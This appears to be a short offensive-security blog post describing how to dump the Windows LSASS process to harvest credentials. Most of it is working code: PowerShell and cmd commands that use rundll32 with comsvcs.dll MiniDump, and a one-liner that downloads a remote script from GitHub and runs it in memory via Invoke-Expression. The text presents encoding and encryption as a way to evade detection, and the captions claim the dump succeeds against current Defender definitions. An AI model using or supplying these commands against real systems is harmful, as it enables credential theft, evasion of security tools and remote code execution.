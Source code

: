 ```yaml
---
title:  "LSASS Enc Dump"
date:   2021-08-13 21:20:00 +0100
categories: [techniques]
tags: [windows, lsass]
---
```



There are many, many ways to dump the LSASS process in order to gather credentials and other sensitive information from systems.

Two ways I dump LSASS can be seen below.

The first way is to invoke comsvcs.dll with rundll32.exe. Here is the original code with added zipping but not compressing the file as to not cuase potential corruption.

```
$processes = Get-Process
$location = Get-Location
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
	Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
	Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.bin"
	rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.bin full | Out-Null
	Compress-Archive -Path $location\$env:COMPUTERNAME.bin -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


We can also encode and encrypt the script to make it harder to be detected and run it straight in memory via Invoke Expression.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/PowerShell-Stuff/main/lsass-dump')
```



Another way is by using a for loop as follows:

```
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```




![img-description](/images/lsass-1.png)
_LSASS Dumping with uptodate Defender Definitions"_


![img-description](/images/lsass-2.png)
_executing the script_



